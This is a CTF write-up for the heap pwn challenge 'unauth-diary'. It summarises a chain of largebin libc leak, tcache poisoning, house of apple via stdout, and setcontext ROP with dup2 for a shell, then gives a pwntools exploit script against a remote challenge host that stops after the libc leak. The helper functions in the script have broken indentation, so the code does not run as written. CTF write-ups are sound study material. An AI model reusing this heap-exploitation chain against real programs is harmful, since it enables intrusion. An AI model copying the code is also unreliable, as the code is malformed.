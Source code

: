 ## PWN

### unauth-diary

先创造largebin来泄漏libc和堆地址，之后创造一个大小为-1的堆块，这样可以溢出来打tcache poisioning。用stdout结构体打house of apple来调用setcontext来写rop。rop用dup2来改输入输出的fd，这样就能拿到shell了。



```python
from pwn import *

context(arch='amd64',os='linux')
context.terminal = ["tmux", "splitw", "-h"]
#io=process("")
#io=remote("localhost",9999)
io=remote("39.106.16.204", 33245)
r = lambda a : io.recv(a)
rl = lambda    a=False        : io.recvline(a)
ru = lambda a,b=True    : io.recvuntil(a,b)
s = lambda x            : io.send(x)
sl = lambda x            : io.sendline(x)
sa = lambda a,b            : io.sendafter(a,b)
sla = lambda a,b        : io.sendlineafter(a,b)
shell = lambda            : io.interactive()
def debug(script=""):
    gdb.attach(io, gdbscript=script)

def add(size, content):
    sla(">", "1")
sla(":", str(size))
sla(":", content)

def free(idx):
    sla(">", "2")
sla(":", str(idx))

def view(idx):
    sla(">", "4")
sla(":", str(idx))

def edit(idx, content):
    sla(">", "3")
sla(":", str(idx))
sla(":", content)

for i in range(8):
    add(0x500, "A"*4)
add(0x10, "A"*8)

for i in range(8):
    free(i)

add(0x10, "A"*8)
add(0x10, "A"*8)
add(0x10, "A"*8)
add(0x10, "A"*8)
add(0x10, "A")
add(0x200, "A"*8)
add(0x300, "A"*8)

view(5)
ru("A"*8)
libc=u64(r(8))-0x203b00
```